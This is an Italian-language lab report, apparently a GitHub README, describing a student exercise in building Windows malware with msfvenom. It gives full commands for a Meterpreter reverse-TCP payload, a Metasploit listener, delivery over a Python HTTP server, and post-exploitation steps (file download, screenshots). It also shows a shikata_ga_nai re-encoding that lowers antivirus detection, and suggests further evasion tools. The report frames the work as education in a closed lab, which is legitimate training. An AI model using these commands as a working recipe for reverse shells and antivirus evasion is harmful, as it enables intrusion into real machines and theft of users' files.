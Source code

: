 
# Relazione sull'Esercizio di Cybersecurity 🚀

## Obiettivo 🎯

L'obiettivo dell'esercizio era creare un malware utilizzando **msfvenom** e migliorare la sua non rilevabilità rispetto a un malware standard. Questo esercizio ci ha permesso di esplorare le tecniche utilizzate dagli attaccanti per eludere i sistemi di sicurezza e comprendere meglio le strategie difensive.

---

## Preparazione dell'Ambiente ⚙️

### Configurazione delle Macchine Virtuali 💻
- **Kali Linux**:
  - Sistema operativo utilizzato per creare il malware.
  - Configurazione della rete in modalità "Rete Interna".
  - IP assegnato: `169.254.107.5`.
- **Flare-VM (Windows 10)**:
  - Sistema operativo bersaglio per testare il malware.
  - Disabilitati antivirus e Windows Defender per simulare un ambiente vulnerabile.

### Strumenti Utilizzati 🛠️
- **msfvenom**: Per generare il payload.
- **Metasploit Framework**: Per configurare il listener.
- **Python HTTP Server**: Per trasferire il malware al sistema bersaglio.
- **VirusTotal**: Per analizzare la rilevabilità del malware.

---

## Creazione del Malware 💾

### Comando Utilizzato per Generare il Malware
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=169.254.107.5 LPORT=4444 -f exe -o malware.exe
```
- **Payload**: `windows/meterpreter/reverse_tcp`
- **LHOST**: `169.254.107.5` (IP di Kali Linux).
- **LPORT**: `4444` (porta per la connessione inversa).
- **Formato**: `.exe` (eseguibile Windows).

Il file `malware.exe` è stato salvato nella directory corrente su Kali Linux.

### Configurazione di Metasploit 🧰

Nel terminale di Metasploit sono stati eseguiti i seguenti comandi:
```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 169.254.107.5
set LPORT 4444
exploit
```
Questo ha avviato un listener per catturare la connessione inversa.

---

## Trasferimento del Malware 📂

Per trasferire il malware alla macchina Flare-VM:
1. **Avvio del server HTTP su Kali Linux**:
   ```bash
   python3 -m http.server 8080
   ```
2. **Download del file su Flare-VM**:
   - Attraverso il browser di Flare-VM, è stato scaricato il file accedendo a:
     ```
     http://169.254.107.5:8080/malware.exe
     ```

---

## Esecuzione e Analisi del Malware 🕵️‍♂️

### Esecuzione del Malware
Il file `malware.exe` è stato eseguito su Flare-VM, stabilendo una connessione con il listener di Metasploit su Kali Linux. Una volta stabilita la sessione **Meterpreter**, sono stati eseguiti i seguenti comandi:

1. **Informazioni di Sistema**:
   ```bash
   sysinfo
   ```
   - Sistema operativo: Windows 10.
   - Architettura: x64.

   ![Informazioni di Sistema](image1.png)

2. **Elenco dei Processi**:
   ```bash
   ps
   ```
   - Sono stati identificati processi attivi per eventuali analisi future.

   ![Elenco dei Processi](image2.png)

3. **Navigazione nel File System**:
   ```bash
   ls
   cd C:\Users
   ```
   - Sono stati elencati file e directory nella cartella utente.

   ![Navigazione nel File System](image3.png)

4. **Download di File**:
   ```bash
   download C:\Users\utente\Desktop\documento.txt
   ```

5. **Screenshot del Desktop**:
   ```bash
   screenshot
   ```
   - Uno screenshot del desktop è stato catturato e salvato su Kali Linux.

   ![Screenshot del Desktop](image4.png)

---

## Analisi della Rilevabilità 🔍

### Malware Originale
- **Analisi su VirusTotal**:
  - Numero di rilevazioni: **15 su 60**.
  - Identificato come *Trojan.Generic* da diversi motori antivirus.

### Malware Modificato
Dopo aver applicato tecniche di evasione, è stato generato un nuovo malware con il seguente comando:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=169.254.107.5 LPORT=4444 -e x86/shikata_ga_nai -i 10 -f exe -o malware_encoded.exe
```
- **Tecniche di evasione applicate**:
  - Encoder: `shikata_ga_nai` con 10 iterazioni.

- **Analisi su VirusTotal**:
  - Numero di rilevazioni: **5 su 60**.
  - Il malware è stato rilevato da meno motori antivirus rispetto alla versione originale.

---

## Conclusioni 🏁

### Risultati
- Il malware originale era facilmente rilevabile da molti antivirus.
- Dopo l'applicazione di tecniche di evasione, la rilevabilità è stata significativamente ridotta.
- La sessione **Meterpreter** ha consentito di eseguire con successo azioni come la raccolta di informazioni di sistema, l'esplorazione del file system e la cattura di screenshot.

### Capacità Acquisite
- Creazione di malware con msfvenom.
- Configurazione di listener con Metasploit.
- Tecniche di evasione per migliorare la non rilevabilità.
- Analisi dei risultati utilizzando VirusTotal.

### Possibili Migliorie
- Utilizzo di tecniche di evasione più avanzate, come la scrittura di payload personalizzati.
- Integrazione con strumenti come Veil-Evasion per automatizzare l'offuscamento.
- Studio di metodi per bypassare non solo antivirus, ma anche analisi comportamentali.

---

**Nota**: Questo esercizio è stato svolto esclusivamente a scopo educativo, in un ambiente controllato, per comprendere le tecniche di attacco e migliorare le difese contro di esse.
